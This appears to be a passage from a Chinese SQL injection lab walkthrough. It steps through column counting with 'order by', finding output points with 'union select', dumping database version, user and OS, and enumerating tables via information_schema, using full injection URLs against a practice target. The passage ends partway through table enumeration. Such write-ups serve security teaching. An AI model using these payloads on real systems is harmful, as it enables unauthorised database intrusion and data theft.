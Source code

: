 ![](https://img.yatjay.top/md/202203251631727.png)

则说明有可能存在SQL注入

### 第2步： 猜解列名字段数量 order by

order by 4 显示正常  http://219.153.49.228:45239/new_list.php?id=1order%20by%204     %20是空格的url编码

![](https://img.yatjay.top/md/202203251631113.png)

order by 5 显示异常  http://219.153.49.228:45239/new_list.php?id=1%20order%20by%205   %20是空格的url编码

![](https://img.yatjay.top/md/202203251631689.png)

### 第3步：联合查询寻找输出点 union select 1,2,3,…,x

http://219.153.49.228:49521/new_list.php?id=-1 union select 1,2,3,4

![](https://img.yatjay.top/md/202203251631927.png)

### 第4步：信息收集——库名、表名、字段名

#### 爆数据库基本信息

##### 爆数据库版本、数据库名

![](https://img.yatjay.top/md/202203251631617.png)

##### 爆用户名、操作系统

![](https://img.yatjay.top/md/202203251631357.png)

得到以下基础信息：

| 收集信息   | 值                      |
| ---------- | ----------------------- |
| 数据库版本 | 5.7.22-0ubuntu0.16.04.1 |
| 数据库名称 | mozhe_Discuz_StormGroup |
| 用户名     | root                    |
| 操作系统   | Linux                   |

#### 在系统自带数据库information_schema中爆表名和字段名

##### 查询指定数据库名下的所有表名信息：

在informa_schema数据库中指定`table_schema`字段(即数据库名)的值为`mozhe_Discuz_StormGroup`下的所有表名`table_name`信息：

```sql
http://219.153.49.228:49521/new_list.php?id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=‘mozhe_Discuz_StormGroup’
```
